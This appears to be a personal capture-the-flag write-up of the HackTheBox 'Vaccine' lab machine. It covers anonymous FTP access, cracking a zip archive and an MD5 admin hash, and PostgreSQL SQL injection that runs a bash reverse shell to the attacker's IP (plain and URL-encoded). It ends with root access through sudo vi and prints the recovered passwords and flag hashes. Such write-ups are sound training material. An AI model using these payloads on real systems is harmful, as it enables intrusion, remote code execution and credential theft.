 We started like allways with a scan in all the ports and then a more precise on the opened ones. Creating folders where we are going to work

ports open 21,22,80

this is the total report; 

```
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:10.10.16.6
|      Logged in as ftpuser
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 3
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_-rwxr-xr-x    1 0        0            2533 Apr 13  2021 backup.zip
22/tcp open  ssh     OpenSSH 8.0p1 Ubuntu 6ubuntu0.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 c0:ee:58:07:75:34:b0:0b:91:65:b2:59:56:95:27:a4 (RSA)
|   256 ac:6e:81:18:89:22:d7:a7:41:7d:81:4f:1b:b8:b2:51 (ECDSA)
|_  256 42:5b:c3:21:df:ef:a2:0b:c9:5e:03:42:1d:69:d0:28 (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: MegaCorp Login
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

```

what web gives us this 
```
http://10.129.38.37 [200 OK] Apache[2.4.41], Cookies[PHPSESSID], Country[RESERVED][ZZ], HTML5, HTTPServer[Ubuntu Linux][Apache/2.4.41 (Ubuntu)], IP[10.129.38.37], PasswordField[password], Title[MegaCorp Login]
```

launchpad for this service :  vsftpd 3.0.3
"ubuntu xenial"

OpenSSH 8.0p1 Ubuntu 6ubuntu0.1
"ubuntu eoan"

Apache httpd 2.4.41 
"ubuntu focal"

Every launchpad is different

Ok now im going to go to the ftp and watch what is there on that file, is compressed i cant read it. the name is a backup.zip.

Ok and in the http server there is a login.

Im going to try to get a hash password from the file 

I need to execute this

```
zip2john encripted_file.zip >zip.hash
```
all right now we need to use john with a dictionary and give the zip.hash

```
john --wordlist/usr/share/wordlist/rockyou.txt zip.hash
```

this is the password

```
741852963        (backup.zip)  
```

so, the  admin password for the website that we seen before is this
```
2cb42f8734ea607eefed3b70af13bbd3
and the username is admin
```

the password is in md5 and is "qwerty789"


Now im connected to the admin panel, and seems to be vulnerable to sqli . The errors are showed on the screen. I want to execute a shell but i dont know how to do it

I found information on this source https://www.linkedin.com/pulse/hack-box-starting-point-vaccine-nathan-barnes

## Reverse shell process ##

To start, let's allow all TCP inbound connections from the target machine's IPv4 address to our own attacking machine's IPv4 address via port 1234 (or whichever port you want to listen on).

```
sudo ufw allow from 10.10.10.46 proto tcp to any port 1234
```

Follow this up by starting a Netcat listener on your own attacking machine.

```
nc -lvnp 1234
```

Next, run the following code within the search bar of the target website.

* Be sure to set your own IPv4 address & the correct port. Also, at times I had to log out of the website and log back in while repeating the process to get the connection back. Just look at it as extra practice.
```
'; CREATE TABLE cmd_exec(cmd_output text); --
'; COPY cmd_exec FROM PROGRAM 'bash -c ''bash -i >& /dev/tcp/10.10.14.107/1234 0>&1'''; --
```

I had some problems when i was tying to get the bash. So i url encode it ... of course it was on the & that is %27. I will put right here down a full url encoded, but I think it is not neccesary
```
%27%3B%20COPY%20cmd_exec%20FROM%20PROGRAM%20%27bash%20-c%20%27%27bash%20-i%20>%26%20%2Fdev%2Ftcp%2F10.10.16.6%2F443%200>%261%27%27%27%3B%20--
```


I cant have a decent tty ...

```
python3 -c 'import pty; pty.spawn("/bin/sh")'
```

I found the password of postgres , is this P@s5w0rd!. Now for the priviledge scalation I did sudo -l and i get that i can execute vi as sudo..

```
Matching Defaults entries for postgres on vaccine:
    env_keep+="LANG LANGUAGE LINGUAS LC_* _XKB_CHARSET", env_keep+="XAPPLRESDIR
    XFILESEARCHPATH XUSERFILESEARCHPATH",
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin,
    mail_badpass

User postgres may run the following commands on vaccine:
    (ALL) /bin/vi /etc/postgresql/11/main/pg_hba.conf

```

From here exit **vim** by entering either of the following:

```
:!/bin/bash
:!/bin/sh
:shell
```


user:
ec9b13ca4d6229cd5cc1e09980965bf7

root:
dd6e058e814260bc70e9bbdef2715849